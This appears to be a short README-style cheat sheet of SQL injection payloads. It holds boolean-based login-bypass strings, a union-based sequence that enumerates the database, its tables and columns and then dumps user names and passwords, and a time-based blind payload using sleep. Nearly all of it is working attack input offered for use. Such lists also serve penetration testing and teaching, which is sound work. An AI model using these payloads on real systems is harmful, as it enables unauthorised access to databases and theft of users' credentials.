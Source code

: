 # SQLi-pattern

Boolean-based (Login page):

---

```sh
' or '1'='1  
') or 1=('1  
') or 1=('1')-- -  
") or 1=("1  
") or 1=("1")-- -  
' or '1'='1'#  
```

Union-based (URL String):

---

```sh
' AND 1='1  
' AND 1='2  
' ORDER BY 8 -- '
' UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8 -- '
' UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8 LIMIT 1, 1 -- '
' UNION SELECT database(),version(),user(),4,5,6,7,8 LIMIT 1,1 --+
' UNION SELECT group_concat(table_name,0x0a),2,3,4,5,6,7,8 from information_schema.tables where table_schema=database() LIMIT 1,1 --+
' UNION SELECT group_concat(column_name,0x0a),2,3,4,5,6,7,8 from information_schema.columns where table_name='users' LIMIT 1,1 --+
' UNION SELECT group_concat(name,0x0a,password),2,3,4,5,6,7,8 from users LIMIT 1,1 --+
```

Time-based:

---

```sh
and if(length(database())=4,sleep(5),1) #
```
